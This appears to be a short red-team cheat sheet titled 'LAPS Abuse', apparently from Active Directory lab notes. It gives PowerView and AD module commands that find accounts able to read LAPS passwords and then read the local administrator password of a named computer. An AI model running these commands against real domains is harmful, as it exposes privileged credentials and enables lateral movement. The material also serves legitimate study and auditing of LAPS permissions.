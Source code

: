 ```yaml
---
layout: post
date: 23/11/2022
author: Aswin Gopalakrishnan
title: LAPS Abuse
---
```


## PowerView

### Find Users Who Can Read Passwords in Clear Text
```bash
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {
    ($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and
    ($_.ActiveDirectoryRights -match 'ReadProperty')
} | ForEach-Object {
    $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_
}
```

## AD Module

- Import All Module
```bash
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
```
- Get Permissions
```
C:\AD\Tools\Get-LapsPermissions.ps1
```
- View Password
```bash
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName us-mailmgmt
```
The `Get-AdmPwdPassword` command uses the LAPS module.
```


---

[back](../)